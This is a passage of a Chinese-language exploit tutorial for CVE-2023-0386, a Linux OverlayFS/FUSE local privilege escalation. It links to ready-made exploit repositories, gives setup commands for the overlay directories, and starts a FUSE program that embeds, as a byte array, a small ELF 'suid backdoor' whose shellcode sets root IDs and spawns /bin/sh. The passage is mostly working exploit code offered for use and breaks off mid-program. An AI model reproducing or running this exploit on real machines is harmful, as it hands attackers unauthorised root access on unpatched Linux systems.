 

#### 漏洞利用

> https://github.com/Fanxiaoyao66/CVE-2023-0386 <- 这里有我写好的exp，如果你懒得动手做一遍的话。

准备工作需要创建多个文件夹，构建出一个overlayFS。

```shell
cd /tmp
mkdir fuse upper overlay workdir
```

- 其中fuse是用户自定文件系统所在文件夹，也作为overlayFS的下层。

- upper作为overlayFS的上层。

- overlay作为overlayFS的合并层。

- workdir是overlayFS的工作目录。

1、创建fuse文件系统。

下面的fuse代码是我在c师傅的基础上修改的。https://github.com/chenaotian/CVE-2023-0386

```c
#define FUSE_USE_VERSION 30

#include <fuse.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

static const char *hello_path = "/hello";//fuse文件系统中有一个名为hello的文件，这里是文件路径
const char hello_str[] = {//fuse文件系统中的suid 后门文件的二进制内容
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
    0x00, 0x56, 0x56, 0x56, 0x56, 0x00, 0x00, 0x00,
    0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
    0xb0, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00,
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00,
    0x02, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00,
    0xf6, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0xf6, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x51, 0xe5, 0x74, 0x64, 0x07, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x31, 0xff, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x75,
    0x58, 0x0f, 0x05, 0x31, 0xff, 0x31, 0xd2, 0x31,
    0xf6, 0x6a, 0x77, 0x58, 0x0f, 0x05, 0x6a, 0x68,
    0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x2f, 0x73, 0x50, 0x48, 0x89, 0xe7, 0x68, 0x72,
    0x69, 0x01, 0x01, 0x81, 0x34, 0x24, 0x01, 0x01,
    0x01, 0x01, 0x31, 0xf6, 0x56, 0x6a, 0x08, 0x5e,
    0x48, 0x01, 0xe6, 0x56, 0x48, 0x89, 0xe6, 0x31,
    0xd2, 0x6a, 0x3b, 0x58, 0x0f, 0x05};

static int hellofs_getattr(const char *path, struct stat *stbuf)//获取文件或目录的属性信息的回调函数getattr
```